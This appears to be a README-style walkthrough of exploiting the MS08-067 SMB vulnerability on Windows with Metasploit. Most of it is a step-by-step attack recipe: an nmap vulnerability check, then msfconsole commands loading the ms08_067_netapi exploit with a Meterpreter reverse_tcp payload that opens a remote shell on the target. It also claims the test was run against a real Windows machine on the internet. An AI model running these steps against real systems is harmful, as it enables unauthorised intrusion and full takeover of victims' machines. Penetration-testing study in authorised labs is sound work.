 penetration test with Metasploit to SMB protocol in machine running Windows Operating System. 

This test done in 2018 on the windows machine located on internet in the real world and gains the full control of the windows command prompt.

Scenario:

(Good old MS08_067 would be a good place to start)

Description: The servers of Microsoft Windows provide support for sharing resources, such as files and print services over a network. This service is vulnerable to remote code execution, and NetAPI32.dll is the cause of this vulnerability.

While windows process a directory traversal (maker) character sequence in path names, there is an error generated in NetAPI32.dll. The vulnerability could be exploited by corrupting stack memory. An example would be sending RPC requests that contain specially crafted (made) path names to the server service component(SRVSVC). The result cause buffer overflow in target memory and finally full access to the command shell of the target machine.

First, identify that the target Windows is vulnerable to MS08-067 or not. Open your terminal and enter the following Nmap command: nmap -p445 --script smb-vuln-ms08-067

A)Find IP address of each machine with "ifconfig" in Backtrack and in Windows using "ipconfig".

B)In the Backtrack terminal: 1.msfconsole 2.use exploit/windows/smb/ms08_067_netapi

Here we are able to see the options of "SMB" exploit by this command: 3.show options 4.set rhosts <Target_IP>

C)In the next step we need to set up a listener to handle reverse connection from our exploit(if it's successfully triggered):

1.set payload windows/meterpreter/reverse_tcp

2.set lhost <Backtrack_IP>

3.exploit

Note) during the attack, we are able to trace the exploitation step by step through the wireshark.

After watching "session 1 is open" you succeed to enter the target machine. Now you are in the shell of the target and be able to see and change files and folders.

To exit from "Meterpreter" type "quit".
